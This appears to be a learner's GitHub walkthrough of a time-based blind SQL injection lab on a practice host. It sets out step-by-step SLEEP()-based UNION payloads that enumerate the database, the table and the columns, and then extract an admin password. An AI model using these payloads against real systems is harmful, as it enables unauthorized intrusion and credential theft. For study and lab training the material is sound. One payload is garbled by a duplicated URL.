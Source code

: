## Time-Based


A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as ***SLEEP(x)** alongside the UNION statement. The ***SLEEP()** method will only ever get executed upon a successful UNION SELECT statement. 


So, for example, when trying to establish the number of columns in a table, you would use the following query:

```
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

```
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns.


You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the ***UNION SELECT** statement.

If you're struggling to find the table name, the below query should help you on your way:

```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

************

let's go to hacing together ;)

we want hack this login by Time-Based injection;

we know our guess is wrong or correct by sleep();

we try this payload

```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/46872ea7-a324-4d71-a2b5-ce50911106c9)

sleep isn't work , we guess worng , we try guess ***s***;

```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/68adec9a-effd-427e-b32f-1e8adf12fa58)

this sleep is working now this guess correct with ***s***


after guessing , We know that the name of database is ***sqli_four***

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/74acd5bc-a273-427f-bdac-55054299df9f)


now we guess for find names of table and columns then find username and password

```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name='users';--
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/bdebc4e0-6c4b-4e78-b994-feaa24b777c7)

this name of table is ***users***

Then

```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'username';
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0d86d52b-82c3-4624-b4a1-40b8e125b0d8)

this name of column is ***username***

Then

```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(3),2 from users where username like 'admin
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a878f1c4-439f-48dd-b06a-f71496783c2c)

This name of username id ***admin***

Then

```
https://website.thm/analytics?referrer=https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like '4961
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b1b4e607-5364-4a3c-87dc-8815590094b7)


This password of admin is ***4961***

Now we hacked login by acount of admin. enjoy your hacking ;)




















